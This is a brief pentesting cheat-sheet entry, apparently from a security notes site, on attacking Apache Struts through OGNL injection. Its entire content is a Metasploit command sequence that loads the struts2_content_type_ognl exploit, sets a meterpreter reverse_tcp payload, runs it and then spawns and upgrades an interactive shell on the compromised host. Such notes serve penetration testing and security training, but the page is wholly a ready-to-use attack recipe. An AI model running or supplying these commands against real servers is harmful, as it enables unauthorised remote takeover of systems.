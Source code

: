 ```yaml
---
title: Apache Struts Pentesting
desc: An open-source web application framework for developing Java EE web applications.
tags: [Apache, OGNL, Struts]
alts: []
render_with_liquid: false
---
```


## Struts2 OGNL Elavasion

1. **Use Metasploit**

    ```sh
    msfconsole
    msf > use multi/http/struts2_content_type_ognl
    msf > set payload linux/x86/meterpreter/reverse_tcp
    msf > exploit

    meterpreter > shell
    SHELL=/bin/bash script -q /dev/null
    ```